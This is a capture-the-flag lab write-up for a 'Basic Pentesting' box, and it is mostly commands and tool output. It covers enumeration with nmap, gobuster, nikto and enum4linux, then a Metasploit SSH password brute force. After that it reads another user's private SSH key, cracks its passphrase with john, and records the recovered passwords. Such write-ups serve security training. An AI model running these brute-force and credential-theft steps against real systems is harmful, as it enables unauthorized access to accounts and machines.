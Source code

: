 # Basic Pentesting
---
## Enumeration

- **IP Address:** 10.10.73.11

### gobuster
`gobuster dir -u 10.10.73.11 -x .php,.xml,.html -w /usr/share/wordlists/dirb/common.txt`
<pre>
.hta (Status: 403)
/.hta.php (Status: 403)
/.hta.xml (Status: 403)
/.hta.html (Status: 403)
/.htaccess (Status: 403)
/.htaccess.xml (Status: 403)
/.htaccess.html (Status: 403)
/.htaccess.php (Status: 403)
/.htpasswd (Status: 403)
/.htpasswd.php (Status: 403)
/.htpasswd.xml (Status: 403)
/.htpasswd.html (Status: 403)
[/development (Status: 301)](###10.10.73.11/development/)
/index.html (Status: 200)
/index.html (Status: 200)
/server-status (Status: 403)
</pre>

### nmap
`nmap -A -T5 -p- 10.10.73.11`
<pre>
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 db:45:cb:be:4a:8b:71:f8:e9:31:42:ae:ff:f8:45:e4 (RSA)
|   256 09:b9:b9:1c:e0:bf:0e:1c:6f:7f:fe:8e:5f:20:1b:ce (ECDSA)
|_  256 a5:68:2b:22:5f:98:4a:62:21:3d:a2:e2:c5:a9:f7:c2 (ED25519)
80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http        Apache Tomcat 9.0.7
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/9.0.7
Service Info: Host: BASIC2; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h20m01s, deviation: 2h18m34s, median: 0s
|_nbstat: NetBIOS name: BASIC2, NetBIOS user: <unknown>, NetBIOS MAC: <unknown\>
(unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: basic2
|   NetBIOS computer name: BASIC2\x00
|   Domain name: \x00
|   FQDN: basic2
|_  System time: 2021-05-18T12:25:16-04:00                                                                                                                                                                                                 
| smb-security-mode:                                                                                                                                                                                                                       
|   account_used: guest                                                                                                                                                                                                                    
|   authentication_level: user                                                                                                                                                                                                             
|   challenge_response: supported                                                                                                                                                                                                          
|_  message_signing: disabled (dangerous, but default)                                                                                                                                                                                     
| smb2-security-mode:                                                                                                                                                                                                                      
|   2.02:                                                                                                                                                                                                                                  
|_    Message signing enabled but not required                                                                                                                                                                                             
| smb2-time:                                                                                                                                                                                                                               
|   date: 2021-05-18T16:25:16                                                                                                                                                                                                              
|_  start_date: N/A
</pre>



### nikto
`nikto -h 10.10.73.11`
<pre>
+ Server: Apache/2.4.18 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Server may leak inodes via ETags, header found with file /, inode: 9e, size: 56a870fbc8f28, mtime: gzip
+ Apache/2.4.18 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Allowed HTTP Methods: POST, OPTIONS, GET, HEAD 
+ OSVDB-3268: /development/: Directory indexing found.
+ OSVDB-3092: /development/: This might be interesting...
+ OSVDB-3233: /icons/README: Apache default file found.

</pre>
### Wappalyzer
- **Webserver:** Apache 2.4.18
- **OS:** Ubuntu
---
## Investigation

### /index.html
- Just shows undergoing maintenance

### /development/

Contains: 
1. j.txt
- Reveals that they are using vers 2.5.12, using "struts"
-- [Exploitdb shows vers 2.5.12 of vulnerable to RCE](https://www.exploit-db.com/exploits/42627)
- Shows SMB configured, nmap shows it as 2.02
2. dev.txt 
- Reveals that user "j" has a weak password hash


## Intrusion

1. ~~port 8009 allows POST, maybe inject the vuln found on exploitDB above?~~
2. SMB port 445 is open for enum4linux 
`enum4linux -a 10.10.73.11`
- gives us "jan" and "kay"
3. brute force using ssh with metasploit
- open metasploit
- set options 
```  
search ssh
use 18
set USERNAME jan
set RHOSTS 10.10.73.11
set RPORT 22
set PASS_FILE /usr/share/wordlists/rockyou.txt
set VERBOSE true
exploit
```
- **password:** armando

## post-intrusion

`cd /tmp`
- `nano linenum.sh` and copy paste [enumeration script](https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh)
- ~~check for GTFO bins~~
- ~~check for relaxed permissions~~
- go looking in /home/kay for some information
` cat /home/kay/.ssh/id_rsa`

on local machine:
`ssh -i kaykey kay@10.10.73.11`
- connection asks for passphrase?

```
ssh2john.py kaykey > johnkey
john -wordlist=/usr/share/wordlists/rockyou.txt johnkey
```
passphrase= "beeswax"

`ssh -i kaykey kay@10.10.73.11`
**passphrase:** beeswax
`cat pass.bak`
>heresareallystrongpasswordthatfollowsthepasswordpolicy$$